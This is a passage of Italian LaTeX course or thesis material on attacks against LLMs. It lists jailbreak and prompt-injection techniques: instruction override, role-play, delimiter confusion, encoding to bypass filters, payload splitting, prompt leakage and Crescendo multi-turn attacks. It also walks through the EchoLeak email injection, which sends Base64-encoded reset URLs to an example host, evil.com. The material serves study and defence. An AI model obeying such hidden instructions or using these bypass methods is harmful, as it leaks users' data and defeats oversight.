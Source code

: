 \begin{itemize}
    \item \textbf{Instruction Override}: sovrascrivere le istruzioni di sistema e dargliene di nuove.
    \item \textbf{Role-Play}: affidare un ruolo al modello per convincerlo a fare 
    delle cose che non potrebbe fare, come ad esempio fornire un payload.
    \item \textbf{Delimiter Confusion}: utilizzare dei delimitatori per i dati 
    (stile SQL Injection) per confondere il modello tra dati e istruzioni.
    \item \textbf{Encoding}: convertire il testo in Base64, ROT13, ecc può 
    effettivamente bypassare i controlli.
    \item \textbf{Payload Splitting}: dividere in più parti la richiesta malevola 
    all'interno del prompt in modo da evitare che venga rilevata dai controlli.
    \item \textbf{Prompt Leakage}: invitare il modello a rivelare le informazioni
    riservate del system prompt.
\end{itemize}

\subsection{Indirect Prompt Injection}

L'attacco avviene quando l'agente LLM processa contenuti esterni non 
attendibili (email, documenti via RAG, risultati web) che contengono 
payload malevoli nascosti.

Esempio di \textit{EchoLeak} (CVE-2025-32711): Un utente chiede al bot di 
riassumere le email. Tuttavia l'email malevola contiene istruzioni nascoste che 
ordinano al bot di cercare altre email con oggetto "password reset", 
estrarre gli URL, codificarli in Base64 e inviarli a un server controllato 
dall'attaccante visitando: 
\begin{gather*}
        \text{http://evil.com/\$ENCODED\_URL}
\end{gather*}
Infine, l'LLM è istruito a tacere su questa operazione nel riassunto.

\subsection{Multi-turn Attacks (Crescendo)}

Questi attacchi superano i controlli RLHF diluendo l'intento malevolo su 
più interazioni conversazionali, sfruttando la memoria dell'LLM.

